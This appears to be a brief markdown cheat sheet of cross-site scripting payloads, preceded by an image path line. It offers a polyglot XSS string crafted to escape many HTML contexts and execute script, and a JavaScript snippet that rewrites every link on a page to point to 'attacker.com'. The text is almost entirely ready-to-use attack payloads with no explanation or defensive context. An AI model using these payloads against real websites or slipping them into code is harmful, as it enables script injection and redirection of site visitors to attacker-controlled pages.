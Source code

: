 # XSS

Few famous XSS tool


**Polyglot payload

```
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```




**Payload to replace all links

```
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});

```
